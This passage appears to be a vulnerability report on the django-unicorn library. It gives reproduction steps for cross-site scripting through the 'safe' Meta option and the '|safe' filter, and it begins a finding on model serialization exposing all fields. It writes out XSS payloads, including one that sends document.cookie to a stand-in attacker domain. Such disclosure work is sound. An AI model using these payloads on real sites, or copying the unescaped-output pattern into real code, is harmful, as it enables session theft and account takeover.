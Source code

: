         class XSSMetaView(UnicornView):
            unsafe_content = ""

            class Meta:
                safe = ("unsafe_content",)
        ```
        or
        ```python
        # xss_component.py (|safe filter approach - component code remains the same, template changes)
        from django_unicorn.components import UnicornView

        class XSSFilterView(UnicornView):
            unsafe_content = ""
        ```
    3. Create a template for the component (e.g., `xss.html`).
        - For Meta `safe` approach (e.g., `xss_meta.html`):
        ```html
        <!-- xss_meta.html -->
        <div>
            <input type="text" unicorn:model="unsafe_content">
            <div id="xss-output" unicorn:id="xss-output">{{ unsafe_content }}</div>
        </div>
        ```
        - For `|safe` filter approach (e.g., `xss_filter.html`):
        ```html
        <!-- xss_filter.html -->
        <div>
            <input type="text" unicorn:model="unsafe_content">
            <div id="xss-output" unicorn:id="xss-output">{{ unsafe_content|safe }}</div>
        </div>
        ```
    4. Create a Django view and template to include this Unicorn component on a page accessible to external users. Configure URL routing accordingly.
    5. Access the page in a web browser as an external attacker.
    6. In the input field, inject a standard XSS payload. Examples:
        - `<img src='x' onerror='alert("XSS Vulnerability - Safe Feature")'>`
        - `<script>alert("XSS Vulnerability - Safe Feature (script tag)");</script>`
        - `" onclick="alert('XSS via attribute')" data-attr="` (attribute injection leading to event handler)
    7. Observe if an alert box with "XSS Vulnerability - Safe Feature" (or similar) appears in the browser. This confirms successful JavaScript execution from the injected payload, validating the XSS vulnerability due to the `safe` feature.
    8. For a more impactful test, use a payload to attempt cookie theft or redirection (as shown in the initial example: `<img src='x' onerror="document.location='https://attacker-controlled-domain.com/steal?cookie='+document.cookie">`). Monitor network requests to verify if a request is sent to the attacker's domain, potentially containing session cookies, which would further demonstrate the critical impact.

---

- Vulnerability name: Default Django Model Serialization Exposes All Fields

* Description:
    By default, when a Django Model instance is used as a field in a Unicorn component and bound using `unicorn:model` or directly rendered in the template, the entire model instance, including all its fields, is serialized and exposed in the HTML source code as part of the component's data. This behavior can lead to unintentional information disclosure of sensitive or internal data that developers may not intend to be publicly accessible. An attacker viewing the page source can easily access this serialized data.

